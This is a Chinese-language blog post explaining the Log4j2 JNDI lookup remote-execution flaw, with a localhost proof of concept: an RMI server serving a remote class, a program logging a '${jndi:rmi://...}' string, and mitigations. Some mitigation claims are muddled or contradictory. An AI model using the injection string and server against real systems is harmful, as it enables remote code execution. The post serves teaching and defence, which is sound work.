 ```yaml
---
categories: [""] 
tags: [""] 
title: "Log4j2远程执行漏洞"
# linkTitle: ""
weight: 5
description: >
  
---
```


# 背景

都2021年了，居然还有这种简单粗暴直接替换占位符的安全问题，真的难以想象。比之前fastjson的漏洞还要大、还要容易。


# 问题原因

## 占位符替换机制

log4j提供了占位符的功能，如下：

```java
logger.info("os: ${java:os}");
// 会输出操作系统的信息
```
会把 ${java:os} 替换成了 System.getProperties("os") 
## jndi占位符替换

离谱的是 log4j 还提供了关于 jndi 的占位符。如：

```java
logger.info("${jndi:rmi://127.0.0.1:1099/hello}")
```

# 影响范围

1、log4j 2.x.x版本（包括直接、间接依赖；1.x版本不受影响）

2、FastJson < 1.2.69 版本

# 漏洞复现

更多源码参考：[java-demo logsafe](https://github.com/chnherb/java-demo/tree/master/src/main/java/com/huangbo/log/logsafe)

## jndi服务

```java
package com.huangbo.log.logsafe;
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.NamingException;
import javax.naming.Reference;
import javax.swing.*;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
public class RmiSafeServer {
    public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {
        LocateRegistry.createRegistry(1099);
        Registry registry = LocateRegistry.getRegistry();
        Reference reference = new Reference("com.huangbo.log.logsafe.Hello", "com.huangbo.log.logsafe.Hello", "http://127.0.0.1:1099/");
        ReferenceWrapper refObjWrapper = new ReferenceWrapper(reference);
        registry.bind("hello", refObjWrapper);
    }
}
class Hello {
    static {
        JOptionPane.showConfirmDialog(null, "嘿嘿嘿！！");
    }
}
```
## 用户程序

```java
package com.huangbo.log.logsafe;
import lombok.extern.slf4j.Slf4j;
@Slf4j
public class LogSafeDemo {
    public static void main(String[] args) {
//        String name = "${java:os}";
        String name = "${jndi:rmi://localhost:1099/hello}";
        login(name);
    }
    public static void login(String name){
        log.info(name);
    }
}
```
## 触发用户程序

注意：务必关闭服务端和客户端的全局代理模式！

启动用户程序发现报错：

```xml
2021-12-18 17:51:05,537 main WARN Error looking up JNDI resource [rmi://localhost:1099/hello]. 
javax.naming.ConfigurationException: The object factory is untrusted. 
Set the system property 'com.sun.jndi.rmi.object.trustURLCodebase' to 'true'.
```
因为本机用的是JDK8，添加了一个新的属性默认为false，需要在用户侧手动开启。添加如下参数，IDEA中配置"VM Options"
```shell
-Dcom.sun.jndi.rmi.object.trustURLCodebase=true
```
重新启动，发现成功入侵！
# 解决方法

## 更新log4j版本

将 log4j 到最新版本 2.15 及以上 ，亲测有效

## 添加jvm参数

亲测不行！

添加jvm参数，禁止占位符替换

```json
-Dlog4j2.FORMATMsgNoLookups=true 
```
或创建 "log4j2.component.properties" 文件，文件中加入"log4j2.formatMsgNoLookups=true" 
## 升级到java8

Java 8 中添加了一个新的属性 com.sun.jndi.rmi.object.trustURLCodebase，这是一个 boolean 类型。默认值是 false，在使用 jndi 时会抛出一个报错阻止加载远程服务器提供的代码。

## 删除jar包class文件

删除 log4j-core-*.jar 中 org/apache/logging/log4j/core/lookup/JndiLookup.class 这个文件，彻底进行不了 jndi

>可行性较小


# Reference

[Log4j 爆“核弹级”漏洞](https://mp.weixin.qq.com/s/Yq9k1eBquz3mM1sCinneiA)

[Log4j 惊天远控漏洞: 原理？如何解决？](https://www.bilibili.com/read/cv14380391)
